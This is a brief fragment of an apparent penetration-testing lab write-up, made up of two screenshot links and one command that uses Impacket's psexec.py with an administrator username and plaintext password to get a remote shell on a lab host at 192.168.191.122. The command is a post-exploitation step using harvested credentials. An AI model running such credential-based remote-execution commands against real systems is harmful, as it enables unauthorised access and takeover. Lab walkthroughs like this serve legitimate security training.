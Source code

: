 ![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/18.png)





<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:G.5#w6MOz34lqW@192.168.191.122</span>
</div>

![image 18](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/19.png)


